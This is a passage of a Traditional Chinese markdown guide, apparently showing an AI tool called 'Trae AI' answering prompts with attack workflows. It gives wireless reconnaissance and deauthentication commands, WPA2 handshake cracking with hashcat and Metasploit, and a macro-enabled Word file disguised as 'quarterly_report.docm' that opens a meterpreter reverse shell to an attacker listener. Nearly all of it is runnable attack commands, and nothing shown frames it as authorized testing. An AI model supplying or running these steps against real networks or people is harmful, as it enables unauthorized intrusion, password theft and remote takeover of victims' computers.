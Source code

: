 ### 階段 1：無線網絡偵察

**用戶提問：**
```
掃描和分析目標無線網絡
```

**Trae AI 建議的工具和流程：**
```
# 注意：這些操作需要在 Kali Linux 上執行
# Trae AI 可以指導但不能直接執行無線操作

# 1. 無線網絡掃描
airodump-ng wlan0mon

# 2. 目標網絡監控
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# 3. 客戶端去認證攻擊
aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
```

### 階段 2：WPA2 破解

**用戶提問：**
```
破解捕獲的 WPA2 握手包
```

**Trae AI 指導流程：**
```
# 1. 使用 Metasploit 的字典攻擊
use auxiliary/analyze/crack_wifi
set HANDSHAKE_FILE /root/capture-01.cap
set DICT_FILE /usr/share/wordlists/rockyou.txt
run

# 2. 或使用 hashcat 進行 GPU 加速破解
hashcat -m 2500 capture.hccapx /usr/share/wordlists/rockyou.txt
```

## 高級攻擊技術

### 社會工程學攻擊

**用戶提問：**
```
結合社會工程學技術進行攻擊
```

**Trae AI 建議的方法：**
```
# 1. 生成惡意 Office 文檔
use exploit/multi/fileformat/office_word_macro
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4449
set FILENAME quarterly_report.docm
exploit

# 2. 設置監聽器
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4449
exploit
```